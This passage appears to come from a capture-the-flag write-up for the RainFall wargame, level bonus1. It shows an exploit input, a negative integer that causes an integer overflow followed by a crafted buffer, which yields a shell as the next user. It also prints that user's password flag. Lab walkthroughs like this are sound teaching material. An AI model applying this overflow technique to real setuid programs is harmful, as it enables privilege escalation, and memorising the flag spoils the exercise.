 So now let's try to input -2147483637 and AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW

```sh
bonus1@RainFall:~$ ./bonus1 "-2147483637" "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW"
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```
TADA Finished.
